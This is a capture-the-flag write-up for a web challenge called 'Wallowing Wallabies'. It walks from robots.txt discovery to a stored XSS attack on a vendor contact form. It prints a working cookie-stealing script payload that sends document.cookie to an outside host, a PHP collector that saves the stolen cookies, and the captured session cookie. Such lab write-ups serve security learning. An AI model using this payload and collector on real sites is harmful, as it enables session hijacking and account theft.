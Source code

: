 # Wallowing Wallabies (Web, 25pts)

## Problem

Wallowing Wallabies provides enterprise contract management - we'd like to find out how easy it is to perform corporate espionage against them. 

## Solution


We've got web page with no visible navigation or form except Home page:

![Wallowing Wallabies]
(assets/1.png)

Quick look at _robots.txt_ reveals some hidden content:

```

User-agent: *
Disallow: /deep-blue-sea/
Disallow: /deep-blue-sea/team/
# Yes, these are alphabet puns :)
Disallow: /deep-blue-sea/team/characters
Disallow: /deep-blue-sea/team/paragraphs
Disallow: /deep-blue-sea/team/lines
Disallow: /deep-blue-sea/team/runes
Disallow: /deep-blue-sea/team/vendors

```

Web page at _/deep-blue-sea/team/vendors_ contains form with two fields:

![Wallowing Wallabies]
(assets/2.png)

Text field was vulnerable to XSS and allows to put payload with simple JavaScript to steal cookie:

```HTML

<script src="bootstrap.min.js">
</script>
<script>document.write('<img src="http://sword.x10host.com/?c='+document.cookie+'"/>');
</script>

```

This payload was saved in message sent to site admin.
At _http://sword.x10host.com/_ simple PHP script saves stolen cookie:

```PHP
<?php

if (isset($_GET["c"])) {
	$cookie = $_GET["c"];
	file_put_contents("cookies.txt", $cookie);
}

```

After a couple of minutes someone "read" message and _cookies.txt_ file on _sword.x10host.com_ contains cookie:

```
green-mountains=eyJub25jZSI6ImUxNjgwMjcyYTcxNDE3MjMiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vdmVuZG9ycy4qJCIsImV4cGlyeSI6MTQ2MjAzMTg2OH0=|1462031865|d985a99f12846cd73da3b9b01b3b921fd15512e3
```

![Wallowing Wallabies]
(assets/3.png)

Refresh of Wallowing Wallabies page with stolen cookie revealed the flag:

![Wallowing Wallabies]
(assets/4.png)


